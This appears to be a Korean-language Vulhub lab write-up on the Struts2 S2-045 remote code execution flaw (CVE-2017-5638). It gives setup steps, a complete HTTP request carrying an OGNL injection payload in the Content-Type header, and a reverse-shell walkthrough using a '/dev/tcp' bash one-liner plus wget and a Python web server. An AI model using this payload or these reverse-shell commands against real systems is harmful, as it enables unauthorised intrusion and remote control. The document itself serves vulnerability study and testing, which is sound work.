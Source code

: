 # Struts2 S2-045 원격 코드 실행 취약점 CVE-2017-5638

## 취약점 설명 

Jakarta Multipart 파서 기반의 파일 업로드 모듈은 파일 업로드(멀티파트) 요청 처리 시 예외 정보를 캡처하고 예외 정보에 대한 OGNL 표현식 처리를 수행합니다. 그러나 content-type이 잘못된 것으로 판단되면 예외가 발생하고 Content-Type 속성 값이 포함되므로 OGNL 표현식을 사용하여 URL을 구성하면 원격 코드 실행이 가능 하다.

## 영향 받는 버전 

Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

## 환경설

Vulhub 다음 명령을 실행하여 s2-045 테스트 환경을 시작

```
docker-compose build
docker-compose up -d
```

환경이 시작된 후`http://your-ip:8080`방문하시면 업로드 페이지를 보실 수 있습니다.

## 취약점 재발

다음 데이터 패킷을 직접 보내면`233*233`성공적으로 실행되었음을 알 수 있습니다.

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```


### 리바운드 쉘

쉘 스크립트를 작성하고 http 서버를 시작

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

shell.sh 파일을 업로드하는 명령은 다음과 같습니다.

```
wget 192.168.174.128/shell.sh
```

취약점EXP를 통해 위 명령을 실행

shell.sh 파일을 실행하는 명령

```
bash shell.sh
```

취약점 EXP를 통해 위 명령을 실행

리바운드 쉘 성공적으로 받음

참고문헌:

- http://struts.apache.org/docs/s2-045.html
- https://blog.csdn.net/u011721501/article/details/60768657
- https://paper.seebug.org/247/
